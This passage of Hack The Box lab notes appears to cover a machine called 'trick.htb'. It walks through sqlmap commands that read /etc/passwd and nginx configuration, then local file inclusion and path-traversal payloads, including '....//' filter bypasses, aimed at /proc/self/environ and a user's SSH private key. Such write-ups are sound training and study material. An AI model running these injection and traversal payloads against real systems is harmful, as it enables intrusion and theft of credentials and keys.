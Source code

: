 > try to inject null byte to the machine.

Reference: Crime Stopper Machine HTB

## SQL Injection 2
```
sqlmap -r <login-page-request-file>

# slow time-based injection
sqlmap -r <login-page-request-file> --privileges

# better version to use error-based sqli
sqlmap -r <login-page-request-file> --risk 3 --level 5 --technique=BEU --batch

sqlmap -r <login-page-request-file> --risk 3 --level 5 --technique=BEU --batch --privilege

sqlmap -r <login-page-request-file> --risk 3 --level 5 --technique=BEU --batch --privilege --file-read=/etc/passwd

# look for nginx default sites
sqlmap -r <login-page-request-file> --risk 3 --level 5 --technique=BEU --batch --privilege --file-read=/etc/nginx/sites-enabled/default


```
Notes:
- Time based SQL injection is slow and it is the main method by default.
- By default, SQLMap technique are BEUSTQ
	- B = Boolean
	- E = Error based
	- U = Union
	- S = Stack based (only in MS SQL and PostgreSQL)
	- T = Time based
	- Q = Query
- We can read any file in the server because we have read file privilege.
- You can get machine username from `/etc/passwd`. You can read the output of that file using `xxd -r -p`
- You can get new domain name = `preprod-marketing.trick.htb`
- Add new domain to your `/etc/hosts`

## Local File Inclusion 2: On New Found Domain
On  `preprod-marketing.trick.htb`, go to services through navbar. Notice that the request is `/index.php?page=services.html`. This may be vulnerable to path traversal or LFI.
```
# try lfi
php://filter/php://convert.base64-encode/resource=services.html

# try path traversal
../services.html
....//services.html


# Get /etc/passwd
../../../../etc/passwd
....//....//....//....//etc/passwd


# Get file from /proc/self
....//....//....//....//proc/self/environ/ # environment variable
Range: bytes=0-499, -500 # additon

....//....//....//....//proc/self/cmdline/ # see the web running as
....//....//....//....//home/michael/.ssh/id_rsa # get private key
```